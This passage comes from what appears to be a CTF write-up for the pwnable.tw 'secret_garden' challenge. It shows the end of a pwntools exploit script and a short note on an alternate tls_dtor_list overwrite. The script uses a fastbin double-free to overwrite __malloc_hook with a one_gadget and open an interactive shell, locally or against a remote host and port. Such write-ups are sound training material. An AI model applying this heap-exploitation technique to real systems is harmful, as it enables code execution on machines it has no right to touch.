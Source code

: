 
    ## FASTBIN ATTACK ##
    addFlower(0x68,"F"*28,"X"*23) # F
    addFlower(0x68,"G"*28,"X"*23) # G
    addFlower(0x68,"H"*28,"X"*23) # H

    delFlower(6)
    delFlower(5)
    delFlower(4)
    delFlower(5)
    delFlower(6)
    
    # [HEAD]->F->G->H->G->F->NULL
    target = libc_base+0x3c3aed
    
    addFlower(0x68,"A"*0x10,"B"*23) 
    addFlower(0x68,p64(target),"B"*23) 
    addFlower(0x68,"A"*0x10,"B"*23) 
    addFlower(0x68,"A"*0x10,"B"*23) 
    
    one_gadget = libc_base+0xef6c4
    addFlower(0x68,"A"*19+p64(one_gadget)+"C"*(0x68-27),"C"*23) # corrupt __malloc_hook
   
    delFlower(6)
    #pause()
    delFlower(6,out=False)
     
    #pause() 
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":"./libc_64.so.6"})
        #r = process(['/home/vagrant/CTFs/pwnable.tw/secret_garden/secretgarden'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

# Alternate plan 2
The second idea I came up with to control RIP, was overwriting the `tls_dtor_list`.

{% highlight bash %}
The tls_dtor_list is a thread-local variable which contains a list of function pointers to be invoked during exit(). __call_tls_dtors walks through tls_dtor_list and invokes the function one by one!! Thus if we can overwrite tls_dtor_list with a heap address which contains system and system_arg in place of func and obj of dtor_list, system() could be invoked!!
{% endhighlight %} 
